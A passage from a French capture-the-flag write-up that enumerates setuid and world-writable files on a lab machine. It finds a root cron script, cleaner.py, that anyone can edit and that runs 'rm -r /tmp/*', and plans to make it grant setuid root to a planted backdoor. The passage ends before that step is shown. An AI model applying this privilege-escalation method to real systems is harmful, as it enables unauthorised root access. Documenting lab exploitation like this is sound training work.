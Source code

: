 ```plain
File /usr/bin/dotlockfile is setgid mail
File /usr/bin/bsd-write is setgid tty
File /usr/bin/mail-lock is setgid mail
File /usr/bin/traceroute6.iputils is setuid root
File /usr/bin/chage is setgid shadow
File /usr/bin/mtr is setuid root
File /usr/bin/chsh is setuid root
File /usr/bin/mail-touchlock is setgid mail
File /usr/bin/crontab is setgid crontab
File /usr/bin/newgrp is setuid root
File /usr/bin/expiry is setgid shadow
File /usr/bin/mail-unlock is setgid mail
File /usr/bin/wall is setgid tty
File /usr/bin/mlocate is setgid mlocate
File /usr/bin/ssh-agent is setgid ssh
File /usr/bin/gpasswd is setuid root
File /usr/lib/pt_chown is setuid root
File /usr/lib/openssh/ssh-keysign is setuid root
File /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper is setuid root
File /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper is setuid root
File /usr/lib/eject/dmcrypt-get-device is setuid root
File /lib/log/cleaner.py is world-writable !
File /srv/ftp/lol.pcap is world-writable !
```

Effectivement les permissions sur le script *cleaner.py* sont open-bar :  

```plain
overflow@troll:/tmp$ ls -l /lib/log/cleaner.py
-rwxrwxrwx 1 root root 96 Aug 13 00:13 /lib/log/cleaner.py
overflow@troll:/tmp$ cat /lib/log/cleaner.py
#!/usr/bin/env python
import os
import sys
try:
        os.system('rm -r /tmp/* ')
except:
        sys.exit()
```

Le script sert tout simplement à vider le dossier */tmp*.  

Dans le fichier swap qui doit être généré par *Vim* on trouve une information intéressante :  

```plain
overflow@troll:/$ ls -al /var/tmp/cleaner.py.swp
-rwxrwxrwx 1 root root 34 Aug 13 01:16 /var/tmp/cleaner.py.swp
overflow@troll:/$ cat /var/tmp/cleaner.py.swp
crontab for cleaner.py successful
```

*cleaner.py* est donc apellé via une tache planifiée. On le modifie pour qu'il mette des droits setuid root sur une backdoor que l'on aura préalablement placé (j'ai évité /tmp car le cleaner peut supprimer nos fichiers entre temps) :  
